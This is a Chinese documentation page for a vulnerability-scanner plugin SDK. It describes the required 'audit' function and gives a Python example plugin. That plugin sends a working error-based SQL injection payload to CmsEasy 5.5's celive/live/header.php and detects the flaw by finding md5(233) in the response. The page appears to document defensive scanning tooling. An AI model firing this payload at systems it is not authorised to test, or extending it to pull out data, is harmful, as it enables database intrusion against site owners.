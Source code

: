 # audit
---

审计函数，该方法为插件继 assign 函数后被调用的函数，在 assign 中判断当前扫描服务与该插件对应的服务相等后，便会调用该插件的 audit 函数。**插件中必须声明此方法**。如果插件中逻辑较为复杂，开发者可自行封装方法，并在 audit 中调用执行即可。


```
audit(arg)
```

### 参数

* **arg**

 该插件所对应的 Service 共同约定的参数，一般为一个经过，具体参数格式可参考 assign 函数中 arg 参数。
 

### 返回值

无。如果检测到存在漏洞，则直接使用 security_info 等报告方法直接输出漏洞报告。


### 范例

以下为 [CmsEasy 5.5 UTF-8 20140802/celive/live/header.php SQL注入漏洞](http://wooyun.org/bugs/wooyun-2010-070827) 的扫描插件。该漏洞为报错注入，如果 Payload 执行成功，则会在返回页面中显示执行成功的 md5(233) 的值。

```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# __author__ = 'Medici.Yan'
# 引入需要用到的标准库
import urllib

# assign 验证任务的指纹
def assign(service, arg):
    if service == fingerprint.cmseasy: # 指纹为 cmseasy
        return True, arg  # 返回类型为 tuple

# audit 审计函数，通过指纹验证后调用该函数
def audit(arg):
    # 此插件中 arg 为提交的网址
    # 构造要提交数据的目标 URL
    target = arg + '/celive/live/header.php'
    # 此漏洞要发送的 POST 数据(Payload)
    post_data = {
        'xajax': 'LiveMessage',
        'xajaxargs[0][name]': "1',(SELECT 1 FROM (select count(*),concat("
                              "floor(rand(0)*2),(select md5(233)))a from "
                              "information_schema.tables group by a)b),"
                              "'','','','1','127.0.0.1','2') #"
    }
    # 通过 curl2 发送 Payload 到目标
    code, head, body, errcode, redirect_url = hackhttp.http(
        target, post=urllib.urlencode(post_data))
    # 验证是否存在漏洞
    if 'e165421110ba03099a1c0393373c5b43' in body:
        # 存在漏洞则输出目标 URL
        security_hole(target)

# 本地测试时需要加 main 用于调用
if __name__ == '__main__':
    # 导入 sdk
    from dummy import *
    # 调用 audit 与 assign
    audit(assign(fingerprint.cmseasy, 'http://localhost/cmseasy/')[1])

```